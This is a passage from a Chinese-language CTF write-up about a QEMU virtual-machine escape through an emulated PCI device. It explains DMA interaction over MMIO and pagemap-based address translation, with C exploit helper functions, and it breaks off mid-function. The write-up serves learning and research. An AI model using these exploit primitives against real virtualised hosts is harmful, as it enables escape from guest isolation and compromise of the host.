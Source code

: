 可以自己体会整个攻击过程的内存交互过程，理清（谁）读写了（什么视角）位于（什么地址）的内存。体会完了一个我自己的感想：如果把qemu逃逸的漏洞对应到真实设备上，则可能打的是某一个PCI外设，如果想打出来PCI外设的代码执行，分析难度固然要比分析qemu这个用户态程序难的多，并且最终漏洞的影响也未必很严重。但是当把这个逻辑实现在qemu中并且存在漏洞，则由于虚拟化导致这变成了虚拟机逃逸，漏洞瞬间变严重，挺有意思。之前认为打PCI外设应该干不了啥，但今天做完题突然想到，PCI外设可以对物理地址进行直接访存，所以如果打出PCI外设的代码执行，则一样有可能控制更多的物理内存，最终完成主机上的漏洞利用。

### 转换

在qemu逃逸的exp中，一般都有个将用户态虚拟地址转换为物理地址的函数。首先，需要这么个函数的原因是：用户态程序直接与PCI外设交互时，PCI外设需要通过物理地址访问一片用户态程序的内存，并且由于是直接交互，内核不经手，所以没人帮我们转换地址，因此要自行转换。

但用户态程序与PCI外设进行mmio进行交互的过程本身，只需要mmap出一片内存，所以在用户态程序的视角下，不需要显式的物理地址参与。如果二者交互的所有信息都仅通过mmio这片内存进行中转，那就彻底不需要什么地址转换了。但很遗憾，PCI外设不是这么用的，看看PCI真实的设备都有什么吧！显卡，网卡，声卡，这些外设必然要和我们的程序进行大量的数据交互，所以mmio这一小片内存多用于设置参数、控制命令等，可以将mmio的功能理解为关键信息的中转站、通信自举过程的第一个信道，而真正的交互buf内存需要用户程序另开一片，因此这个交互buf的地址信息就通过mmio这一小片内存传递给PCI外设，PCI外设通过buf的物理地址对其进行读写操作，当外设操作完成时，想办法通知用户态程序即可。

因此，不是所有的qemu逃逸题目都需要这么个地址转换函数。如果在针对PCI设备的qemu逃逸题目中，出现了进行手工转换的物理地址，那么这个地址最终应该出现在与PCI外设交互的数据中。如本题exp中，只在设置dma参数中使用了地址转换函数：用户态程序将用户空间的虚拟地址转成物理地址并通过对mmap出来的mmio内存进行写操作，设置给dma。

```c
void set_dma_cpy(uint32_t dst, uint32_t src, uint32_t len){
    mmio_write(0x88,dst);
    mmio_write(0x80,src);
    mmio_write(0x90,len);
}

void copy_to_dma(uint32_t dma,void * src, uint32_t len){
    set_dma_cpy(dma+0x40000,gva2gpa(src),len);
    mmio_write(0x98,1);sleep(1);
}

void copy_from_dma(void * dst,uint32_t dma, uint32_t len){
    set_dma_cpy(gva2gpa(dst),dma+0x40000,len);
    mmio_write(0x98,1|2);sleep(1);
}
```

地址转换的原理很简单：[用户态进程如何得到虚拟地址对应的物理地址？](https://cloud.tencent.com/developer/article/1722573)，简单来说就是linux直接给用户态进程留了个接口文件：/proc/self/pagemap，然后用你想转换的地址信息作为偏移去读这个文件就行了，可以理解为查表。不过需要注意，每个表项的大小为8字节，所以地址信息作为偏移需要乘8。但在qemu逃逸的exp中，前人的地址转换很令人费解，尤其是((uintptr_t)addr >> 9) & ~7 这句，怎么也想不明白为啥出来个9：

```c
#define PAGE_SHIFT  12
#define PAGE_SIZE   (1 << PAGE_SHIFT)
#define PFN_PRESENT (1ull << 63)
#define PFN_PFN     ((1ull << 55) - 1)

uint64_t gva_to_gfn(void *addr)
{
    uint64_t pme, gfn;
    size_t offset;

    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        die("open pagemap");
    }
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    return gfn;
}

uint64_t gva_to_gpa(void *addr)
{
    uint64_t gfn = gva_to_gfn(addr);
```